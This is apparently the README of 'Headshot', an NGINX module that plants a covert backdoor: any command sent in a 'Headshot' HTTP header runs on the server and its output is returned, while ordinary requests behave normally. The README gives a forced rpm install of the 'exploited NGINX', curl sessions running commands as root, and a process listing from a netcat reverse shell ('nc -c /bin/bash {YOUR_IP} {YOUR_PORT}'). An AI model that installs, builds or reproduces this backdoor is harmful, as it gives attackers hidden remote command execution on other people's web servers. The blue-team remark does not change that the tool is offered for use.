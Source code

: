 # Headshot
NGINX module to allow for RCE through a specific header. 


## Installation
There is a install script provided in the repo. It will pull down NGINX and compile it with the module. Then NGINX directory will be setup in `/usr/local/nginx` (NGINX default). After this the `NGX_HTTP_CONTENT_PHASE` is hooked and the module will be running in NGINX. In addition, the rpm file provided can be used to install the exploited NGINX by running the command below.

```
rpm -U nginx-1.12.2-2.el7.x86_64.rpm --nodeps --force
```


## Usage
To use the Headshot simply supply your command as a value to the `Headshot` HTTP header. The output (stdout or stderr) of your command will be the response body of the command run. If there is no stdout or stderr from the command, then the response body will obviously be empty and a helpful string is returned. An example or two is shown below.

```
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Headshot]# curl localhost --header "Headshot: touch /tmp/hello"
<-- no stderr/stdout from your command -->
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
[root@localhost Headshot]# curl localhost --header "Headshot: not_a_command"
sh: 1: not_a_command: not found
```
If the header is not supplied (or a different location context is hit) then the server will respond to requests as normal. See below for example.
```
[root@localhost Headshot]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 17622 ?        Ss     0:00  \_ nginx: master process /usr/local/nginx/sbin/nginx
 17623 ?        S      0:00      \_ nginx: worker process
 17719 ?        S      0:00          \_ sh -c nc -c /bin/bash {YOUR_IP} {YOUR_PORT} 2>&1
 17720 ?        S      0:00              \_ sh -c /bin/bash
 17721 ?        S      0:00                  \_ /bin/bash
```

## Resources
[The foremost resource on NGINX Modules](https://www.evanmiller.org/nginx-modules-guide.html)

[A basic hello world module](https://github.com/perusio/nginx-hello-world-module/)

[The NGINX Source begins to be helpful after you loose sanity](https://github.com/nginx/nginx/)

[The NGINX API Documentation also helps](https://www.nginx.com/resources/wiki/extending/api/utility/)

[Also not a bad small guide](http://www.nginxguts.com/2011/02/http-modules/)
[From the same source as above but goes over NGINX Phases](http://www.nginxguts.com/2011/01/phases/)

[This would be the guide to follow to dynamically link the module](https://www.nginx.com/blog/compiling-dynamic-modules-nginx-plus/)
[This is where I go the idea to hook the NGX_HTTP_CONTENT_PHASE to avoid directive use](http://www.nginx-discovery.com/2011/02/day-21-http-handler-vs-content-phase.html)
